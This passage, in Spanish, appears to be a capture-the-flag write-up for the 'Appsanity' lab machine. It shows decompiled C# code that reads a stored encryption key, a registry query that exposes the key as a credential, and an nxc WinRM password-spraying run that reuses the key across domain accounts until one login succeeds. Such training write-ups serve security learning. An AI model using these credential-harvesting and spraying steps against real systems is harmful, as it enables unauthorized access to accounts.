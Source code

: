 Encontramos una función llamada `RetrieveEncryptionKeyFromRegistry()`
```C#
private string RetrieveEncryptionKeyFromRegistry()
    {
      try
      {
        using (RegistryKey registryKey = Registry.LocalMachine.OpenSubKey("Software\\MedDigi"))
        {
          if (registryKey == null)
          {
            ErrorLogger.LogError("Registry Key Not Found");
            this.Response.Redirect("Error.aspx?message=error+occurred");
            return (string) null;
          }
          object obj = registryKey.GetValue("EncKey");
          if (obj != null)
            return obj.ToString();
          ErrorLogger.LogError("Encryption Key Not Found in Registry");
          this.Response.Redirect("Error.aspx?message=error+occurred");
          return (string) null;
        }
      }
      catch (Exception ex)
      {
        ErrorLogger.LogError("Error Retrieving Encryption Key", ex);
        this.Response.Redirect("Error.aspx?message=error+occurred");
        return (string) null;
      }
    }
```

Donde recupera una clave de registro en `Software\\MedDigi` para utilizar como clave para encriptar/desencriptar los reportes de los pacientes.

Podemos recuperar esta clave de encriptación y vemos una credencial.
```console
C:\inetpub\ExaminationPanel\ExaminationPanel\bin>reg query HKLM\Software\MedDigi

reg query HKLM\Software\MedDigi

HKEY_LOCAL_MACHINE\Software\MedDigi
    EncKey    REG_SZ    1g0tTh3R3m3dy!!

```

Para probar esta credencial podemos utilizarla con `nxc` contra todos los usuarios ya que está el puerto 5985/TCP abierto.

```
$ nxc winrm 10.129.196.198 -u users.txt -p '1g0tTh3R3m3dy!!' --continue-on-success
WINRM       10.129.196.198  5985   APPSANITY        [*] Windows 10 / Server 2019 Build 19041 (name:APPSANITY) (domain:Appsanity)
WINRM       10.129.196.198  5985   APPSANITY        [-] Appsanity\ianc:1g0tTh3R3m3dy!!
WINRM       10.129.196.198  5985   APPSANITY        [-] Appsanity\johnd:1g0tTh3R3m3dy!!
WINRM       10.129.196.198  5985   APPSANITY        [-] Appsanity\marym:1g0tTh3R3m3dy!!
WINRM       10.129.196.198  5985   APPSANITY        [-] Appsanity\sarahh:1g0tTh3R3m3dy!!
WINRM       10.129.196.198  5985   APPSANITY        [-] Appsanity\svc_exampanel:1g0tTh3R3m3dy!!
WINRM       10.129.196.198  5985   APPSANITY        [-] Appsanity\svc_meddigiportal:1g0tTh3R3m3dy!!
WINRM       10.129.196.198  5985   APPSANITY        [+] Appsanity\devdoc:1g0tTh3R3m3dy!! (Pwn3d!)
WINRM       10.129.196.198  5985   APPSANITY        [-] Appsanity\svc_meddigi:1g0tTh3R3m3dy!!
```
